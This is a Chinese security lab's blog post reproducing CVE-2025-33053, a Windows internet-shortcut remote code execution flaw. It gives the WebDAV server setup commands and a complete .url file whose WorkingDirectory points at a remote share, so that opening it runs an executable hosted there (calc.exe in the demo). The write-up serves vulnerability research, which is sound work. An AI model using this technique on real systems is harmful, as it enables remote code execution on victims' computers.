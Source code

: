> **原文链接**: https://mp.weixin.qq.com/s?__biz=MzI3NDEzMDgzNw==&mid=2247485180&idx=1&sn=67de912aaaff345f53ddce1ec5491e9f

#  CVE-2025-33053 网络快捷方式文件远程代码执行漏洞  
原创 毕方安全实验室  BeFun安全实验室   2025-06-24 06:32  
  
   
  
# CVE-2025-33053 网络快捷方式文件远程代码执行漏洞  
## 背景  
  
微软6月修复了一个网络快捷方式的漏洞，由checkpoint捕获的APT组织**Stealth Falcon**  
样本中发现的。  
## 复现  
  
设置
```
.url
```

  
文件的
```
WorkingDirectory
```

  
为远程恶意服务器的
```
webdav
```

  
文件夹, 在打开时会调用
```
iediagcmd.exe
```

  
, 进而调用同目录下的
```
route.exe
```

  
, 因为工作文件夹设置成了恶意服务器上的路径, 就会启动恶意服务器的
```
route.exe
```

  
, 具体复现如下:  
### 创建webdav服务器  
  
安装：  

```
sudo apt update && sudo apt upgrade -y
sudo apt install apache2 apache2-utils -y
sudo a2enmod dav
sudo a2enmod dav_fs
sudo systemctl restart apache2
sudo mkdir -p /var/www/webdav
sudo chown www-data:www-data /var/www/webdav
sudo chmod 755 /var/www/webdav
sudo vim /etc/apache2/sites-available/webdav.conf
```

  
配置文件：  

```
<VirtualHost *:80>
    ServerAdmin webmaster@localhost
    DocumentRoot /var/www/webdav

    <Directory /var/www/webdav>
        Options Indexes FollowSymLinks
        AllowOverride None

        DAV On
        Require all granted
    </Directory>

    ErrorLog ${APACHE_LOG_DIR}/webdav_error.log
    CustomLog ${APACHE_LOG_DIR}/webdav_access.log combined
</VirtualHost>
```

  
重启：  

```
sudo a2ensite webdav.conf
sudo a2dissite 000-default.conf
sudo systemctl reload apache2
```

  
从本地计算机复制一份
```
iediagcmd.exe
```

  
到
```
webdav
```

  
文件夹, 然后把
```
calc.exe
```

  
复制到
```
webdav
```

  
文件夹里。  
### 制作URL文件  
  
新建一个txt，写入以下内容，
```
WorkingDirectory
```

  
设置为远程服务器的路径：  

```
[InternetShortcut]
URL=C:\Program Files\Internet Explorer\iediagcmd.exe
WorkingDirectory=\\192.168.146.138@80/DavWWWRoot\
ShowCommand=7
IconIndex=70
IconFile=C:\Windows\System32\SHELL32.dll
```

  
可以通过
```
IconFile
```

  
和
```
IconIndex
```

  
来设置url文件的图标  
## 最终效果  
  
## 参考  
- • CheckPoint的文章（https://research.checkpoint.com/2025/stealth-falcon-zero-day/）  
  
  
  
   
  
  
